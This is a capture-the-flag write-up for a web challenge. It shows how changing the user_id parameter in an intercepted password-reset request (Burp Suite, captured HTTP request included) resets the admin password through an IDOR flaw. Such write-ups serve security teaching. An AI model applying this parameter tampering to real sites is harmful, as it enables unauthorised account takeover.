




# UnChangeablePasswords

## By Om Honrao


<p align="center">
  
</p>

## Hint 1:-
```
The reset password page makes a POST request to some endpoint, maybe you can fiddle with the parameters of the request to change the admin's password?
```

## Hint 2:-
```
Once you have the admin's password won't you be tempted to login as admin and see what's hidden out there?
```

# Walkthrough
Well if we look at this challenge we have a login page. So to start i created a random account. 

<p align="center">
  
</p>

I login with the new account and saw there is a Change password option. I went there it took to reset.php. Then I thought we can use IDOR vulnerability because it had two parameters  to post i.e. user_id & pass.

<p align="center">
  
</p>

So to change this i fired up burp suite.

I kept intercept on at reset.php.

I reset my password to 123 and saw requests in burp.

I got response as follows:-
```
POST /web/2/reset.php HTTP/2
Host: web.ctf.devclub.in
Cookie: PHPSESSID=vctnccunelh3oioop971veedp1
Content-Length: 23
Cache-Control: max-age=0
Sec-Ch-Ua: "(Not(A:Brand";v="8", "Chromium";v="101"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Linux"
Upgrade-Insecure-Requests: 1
Origin: https://web.ctf.devclub.in
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/101.0.4951.41 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://web.ctf.devclub.in/web/2/reset.php
Accept-Encoding: gzip, deflate
Accept-Language: en-GB,en-US;q=0.9,en;q=0.8

user_id=9090&pass=123
```
Now i simply change the user_id & pass to admin and set admin different pass.

The changes are as follows:-
```
user_id=admin&pass=123
```

I pressed forward and in my chrome it gave a pop up window saying password for admin has been changed.
Now we can simply login as admin.

And boom! we get the flag 

<p align="center">
  
</p>
